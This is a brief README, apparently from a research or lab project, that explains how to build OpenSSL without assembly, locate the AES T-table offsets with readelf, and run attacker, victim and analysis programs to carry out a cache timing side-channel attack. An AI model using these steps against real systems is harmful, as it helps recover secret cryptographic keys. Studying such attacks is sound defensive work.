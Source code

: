 # Cache Timing Attack

## OpenSSL library

```bash
git clone https://github.com/openssl/openssl.git
cd openssl
./config no-hw no-asm
make -j 4
```

## Find the offsets

```bash
readelf -a openssl/libcrypto.so > libcrypto.S
```

In `libcrypto.S` find

```text
    73: 0000000000256720  1024 OBJECT  LOCAL  DEFAULT   15 Te0
    74: 0000000000256320  1024 OBJECT  LOCAL  DEFAULT   15 Te1
    75: 0000000000255f20  1024 OBJECT  LOCAL  DEFAULT   15 Te2
    76: 0000000000255b20  1024 OBJECT  LOCAL  DEFAULT   15 Te3
```

## Attack

Fellow the instruction Modify the `attacker.c`. Modify `OPENSSL_DIR` in `Makefile`.

Then to attack Te0:

```bash
openssl_dir=<path to openssl root>
make
export LD_LIBRARY_PATH=$openssl_dir
./victim &
./attacker -t timing.bin -c cipher.bin -o 256720 -v $openssl_dir/libcrypto.so   //note here the -o is for the target (Te0_0) offset in your shared library, you have to find yours
./analysis -t timing.bin -c cipher.bin -o analysis.txt
python plot_analysis.py analysis.txt
killall victim
```
